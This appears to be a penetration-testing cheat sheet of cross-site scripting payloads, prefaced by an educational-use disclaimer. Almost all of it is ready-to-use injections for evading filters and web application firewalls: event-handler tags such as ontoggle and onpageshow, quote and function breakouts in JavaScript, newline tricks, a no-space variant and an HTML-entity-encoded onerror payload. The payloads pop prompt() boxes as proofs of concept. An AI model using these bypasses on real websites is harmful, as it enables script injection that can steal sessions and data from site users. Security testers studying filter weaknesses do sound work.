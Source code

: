 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
" onclick="prompt(1)
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
```

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//

';prompt(1);//

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.

"};prompt(1);//

You may need to reconstruct the function

"};prompt(1);function whatever(){//

Don't forget %0D%0A if you need a new line

Obscure Breakout
==============
a'*prompt(123)*'

Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
